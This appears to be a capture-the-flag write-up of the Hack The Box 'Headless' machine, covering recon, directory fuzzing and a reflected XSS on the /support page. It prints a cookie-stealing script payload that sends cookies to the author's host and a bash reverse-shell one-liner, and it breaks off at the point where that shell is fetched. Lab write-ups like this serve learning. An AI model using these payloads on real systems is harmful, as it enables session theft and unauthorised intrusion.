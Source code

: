 ```yaml
---
layout: default
title : brenda - headless HTB Writeup
---
```



![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(118).png)

`Headless` is an easy machine in HTB.

### Recon
### Nmap scan
`Nmap` detects two open ports on headless: ssh (80) and http UPnP(5000). Port 5000  seems to return a web page under construction.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(121).png)

Then added headless to /etc/host and proceeded to navigate to the website `http://headless.htb:5000`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(122).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(150).png)

### Directory Search

I used `ffuf` to search directories in headless.htb.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(123).png)

I got two directories: /dashboard which was restricted and /support. I navigated to /support directory

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(124).png)

The `/support` URI allows payload injection, triggering a hacking protection alert. The application replies with user HTTP request header info, indicating a potential reflected-XSS vulnerability.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(125).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(126).png)

### User flag

### Cookie stealing
I looked for how to steal cookies and found this [article](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e). First, I initiated a Python server on port 1234 using the command 
`python3 -m http.server 1234`
Then, I captured an HTTP request and sent it to Repeater. 
Within Repeater, I injected a cookie-stealing payload into reflected headers like "User-Agent", "Accept" and "message" until I got a response. 
`<script>var i=new Image(); i.src="http://10.10.14.21:1234/?cookie="+btoa(document.cookie);</script>`
I repeated this process until our server intercepted and processed the injected payload.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(130).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(131).png)

After setting the accept field to the payload, my server intercepted the cookie, which was encoded in base64. I then proceeded to decode the cookie to reveal its contents.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(140).png)

Now that I obtained the desired cookie, I returned to `/dashboard` and intercepted the request in Burp Suite. I replaced the original cookie with the one we discovered.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(134).png)

I forwarded the request and got this page.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(133).png)

I attempted to gain access to a shell while being behind a protected page. To do so, I created a pyload file named `shell.sh` containing the following code:
`/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.21/1333 0>&1'`
Then set up a listener on port 1333

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(141).png)

With the server still running on port 1234, I requested the payload file `shell.sh` from my machine to the target server.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(138).png)















